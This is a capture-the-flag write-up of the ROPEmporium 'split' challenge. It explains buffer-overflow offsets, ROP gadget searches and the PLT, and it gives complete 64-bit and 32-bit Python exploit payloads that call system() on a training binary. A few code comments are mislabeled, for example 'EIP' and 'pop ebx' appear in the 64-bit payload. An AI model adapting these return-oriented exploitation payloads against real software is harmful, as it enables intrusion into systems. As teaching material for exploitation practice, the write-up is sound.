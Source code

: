 ```yaml
---
title: "split | ROPEmporium [2]"
date: 2024-11-12T14:20:25+05:00
tldr: ROPEmporium - 2, split task writeup
toc: true
summary: "In this challenge, we should run system() function with argument `/bin/cat flag.txt`"
tags: [writeup, ROPEmporium, ROP, chain, exploitation]
---
```


# split

This is our next challenge, read the description of challenge :

---

**Still here**

I'll let you in on a secret: that useful string `"/bin/cat flag.txt"` is still present in this binary, as is a call to `system()`. It's just a case of finding them and chaining them together to make the magic happen.

---

In this challenge, we should run `system()` function with argument `/bin/cat flag.txt` , let’s build the ROP chain that first comes to mind:

1. Find the string `/bin/cat flag.txt` , and put the address of this string into **RDI (arg0 in x64)**
2. Populate/Run the function `system()`  from PLT section

There can be some pitfalls like not aligned stack before running `system()` , that’s why we use `ret`  gadget to align the stack

Checking the security of binary by `checksec ./binary` 

![image.png](image.png)

This indicates that there are no **stack canaries** or **Position Independent Executables** (PIE), and we do not need to worry about Address Space Layout Randomization (ASLR) since it only applies to the libc.

## Find the out the offset of Return Address 

![image.png](image1.png)

![image.png](image2.png)

The offset of Return Address is **40**

Find the string `/bin/cat flag.txt` with the command `strings -a -t x ./split | grep /bin/cat` 

## Explanation

- `strings`: This command searches for sequences of printable characters in a binary file. It is commonly used to find human-readable text in executable files or data files.
- **`a`**: This option tells `strings` to scan the entire file, not just the default sections (like the text section). This is useful for searching through data segments or other non-standard sections of a binary file.
- **`t x`**: This option specifies the format of the output for the offset of each string found. The `x` indicates that the offsets should be displayed in hexadecimal format. Other formats include `d` for decimal and `o` for octal.

![image.png](image3.png)

---

## POP RDI; RET

We have the address of the gadget which reads the flag.txt, move on to the next stage, we need the the `pop rdi, ret;` gadget for beginners I will describe in in three intructions:

```nasm
mov rdi, [rsp]; // Takes the current value from the address of RSP and puts the value into RDI
add rsp, 8; // This effectively moves the stack pointer up in memory, which means that you are removing (or "popping") 8 bytes of data from the stack.
ret; // and return back
```

In case of searching for gadgets, I primarily use two tools: `Ropper` and `RP++`.

`ropper --file ./split --search pop` 

![image.png](image4.png)

`rp++ -r2 --unique -f ./split | grep "pop"` 

- `-r2` useful gadget numbers, `2` is the gadget maximum size in instructions, more than `3`  is not stable for ROP
- `--unique`  do not print the same gadget multiple times (optional)
- `-f`  file to search

![image.png](image5.png)

---

## Function `system()` 64-bit

The `system()` function is indeed part of the C standard library (libc), and when a program calls `system()`, it typically goes through the PLT if the binary is dynamically linked. 
The PLT serves as an intermediary to resolve the actual address of `system()` from the GOT. Initially, the PLT entry for `system()` points to a resolver function, which will resolve the actual address of `system()` in libc and update the GOT entry. 
Once resolved, subsequent calls to `system()` will directly use the resolved address from the GOT

For now enough to know only the PLT address of `system()` 

![image.png](image6.png)

ROP chain: **`pop rdi; ret`**  + **address of string `/bin/cat flag.txt`**  + **`ret;`** (gadget is optional depends on alignment of stack before calling `system()`)  + **`system@plt`** 

## Payload 64-bit

Payload (By the way, some people may ask why this guy is using a linear `struct.pack` instead of `pwntools`, the answer is simple, showing you from where we are taking address all these addresses, and writing these address manually is the best practice for beginners, anyway you can rewrite this payload with `pwntools`): 

```livescript
from struct import pack

system_plt = 0x0000000000400560 
pop_rdi = 0x4007c3 
ret = 0x40053e
bin_cat_flag = 0x00601060

payload = b"A" * 40  # Offset to overwrite EIP
payload += pack('<Q', pop_rdi)  # pop ebx; ret;
payload += pack('<Q', bin_cat_flag)  # Address of "/bin/cat flag.txt"
payload += pack('<Q', ret) 
payload += pack('<Q', system_plt)  # Call system@plt
# Output the payload
with open("payload", "wb") as f:
    f.write(payload)

print("Payload written to 'payload'")
```

## Result 64-bit

We get the flag!

![image.png](image7.png)

# split x32

Everything is the same except for alignment and addresses (32-bit)

## Payload 32-bit

```python
from struct import pack

pop_ebx_ret = 0x8048395
read_flag   = 0x0804a030
system_plt   = 0x080483e0

payload = b'A' * 44
payload += pack('<I', system_plt)
payload += pack('<I', 0x0)
payload += pack('<I', read_flag)

with open("payload", "wb") as f:
    f.write(payload)

print("Payload written to 'payload'")
```

In this ROP chain, the `0x0` after `system_plt` serves as a **placeholder for the return address**.

## Explanation 32-bit

- In 32-bit (x86) architecture, when calling a function like `system` in a ROP chain, the function expects the **next item on the stack** to be a return address. This address tells the program where to continue execution after `system` completes. Since you don't need to return to any specific location after `system` (and likely just want `system` to execute `read_flag`), `0x0` is used as a **dummy return address**. This is common in ROP chains to satisfy the function's calling convention.

## ROP Chain Breakdown 32-bit

1. **`payload += pack('<I', system_plt)`**: Adds the address of `system` (in the PLT) to execute the `system` function.
2. **`payload += pack('<I', 0x0)`**: Adds `0x0` as a placeholder return address, which is required in the stack layout but will not be used here.
3. **`payload += pack('<I', read_flag)`**: Adds the address of `read_flag`, the string you want to pass as an argument to `system`.

The `0x0` value is necessary to align the stack correctly for the `system` function call, allowing the ROP chain to function as expected. In x86, functions generally expect a return address, even if it’s unused, and including it prevents crashes or unexpected behavior.
